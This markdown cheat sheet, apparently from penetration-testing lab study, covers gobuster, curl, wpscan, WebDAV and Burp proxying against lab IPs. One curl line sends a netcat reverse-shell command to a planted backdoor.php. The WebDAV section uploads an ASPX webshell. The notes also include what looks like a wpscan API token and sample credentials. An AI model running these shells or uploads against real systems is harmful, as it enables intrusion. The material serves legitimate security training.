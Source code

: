```zsh

gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
## CURL
- Issue POST Request with `curl` using the `-d` and `-H` options
```zsh
curl -X 'POST' -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
```
- Add the `--proxy` parameter to `curl` to add a proxy. Or use `burl` which is aliased to `curl -x http://127.0.0.1:8080/ -k` 
- We can also post data with the option `--data-urlencode`
```zsh
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash" 
```

## Wpscan
- If we encounter a wordpress instance, we can use `wpscan` to enumerate it
- A basic enumeration can be done by just adding the URL
```zsh
wpscan --url http://websrv1 --api-token quNPrJLpaM4CXAxSncwQHDFqp4C2AC5djCkUcSZjmsU
```
- To enumerate plugins, we add the `--enumerate p` to enumerate the most popular plugins as well as the `--plugins-detection aggressive` as parameters.
```zsh
wpscan --url http://websrv1 y --api-token quNPrJLpaM4CXAxSncwQHDFqp4C2AC5djCkUcSZjmsU
```
> [!HINT]
> To enumerate all plugins simply remove the `--enumerate p` parameter. This scan will take some time however.

## WebDAV
- If we find that WebDAV is running (as indicted by nmap scan), we can use `cadaver` to interact with it and potentially even upload files
```zsh
#Connect by supplying the address of the WebDAV server
cadaver http://192.168.120.108

#Authenticating might be needed
Authentication required for 192.168.120.108 on server '192.168.120.108':
Username: Alexa
Password: Password123

#Afterwards, we can interact with WebDAV
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx
Uploading /usr/share/webshells/aspx/cmdasp.aspx to '/cmdasp.aspx':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> 
```
## Send Requests through Burp
- We can use `burl` which is aliased to `curl -x http://127.0.0.1:8080/ -k` to send curl requests through Burp
- In Python, we can use the `proxies` parameter to send requests through burp
```python
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

res = requests.get(url + '/alexa/somepage',proxies=proxies, verify=False)

test = requests.post(endpoint, headers={'Content-type': 'application/x-www-form-urlencoded'},data=payload,proxies=proxies, verify=False)
```